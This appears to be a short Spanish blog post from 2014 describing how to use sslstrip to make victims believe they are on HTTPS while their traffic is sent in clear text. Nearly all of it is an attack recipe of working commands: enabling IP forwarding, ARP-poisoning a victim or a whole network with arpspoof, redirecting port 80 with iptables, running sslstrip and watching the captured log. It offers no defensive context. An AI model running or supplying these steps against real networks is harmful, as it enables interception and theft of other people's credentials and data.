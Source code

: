 ```yaml
---
layout: post
title: "sslstrip"
date: 2014-01-27 18:35
comments: true
categories: 
---
```

Herramienta para engañar al usuario haciéndole pensar que se encuentra en un sitio de Internet con cifrado SSL [HTTPS], cuando en realidad todos los datos están siendo transmitidos en abierto [HTTP]. 

Configuración de reenvío de paquetes IP: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Envenenamiento ARP (paquete dsniff): 

>\# arpspoof -i eth0 -t ip_victima ip_router 

En caso de querer atacar toda la red, solo especificar la ip router: 

>\# arpspoof -i eth0 ip_router 

Redirección de puertos usando Iptables: 

>\# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 31715 

Al reiniciar el ordenador se borrará la regla, si se quiere borrar al momento cambiar "-A" por un "-D" en el comando anterior. 

Arrancar sslstrip y ponerlo a la escucha: 

>\# sslstrip -k -f -l 31715 -w archivo.log 

Visionar en tiempo real los paquetes capturados: 

>\#  tail -f archivo.log 

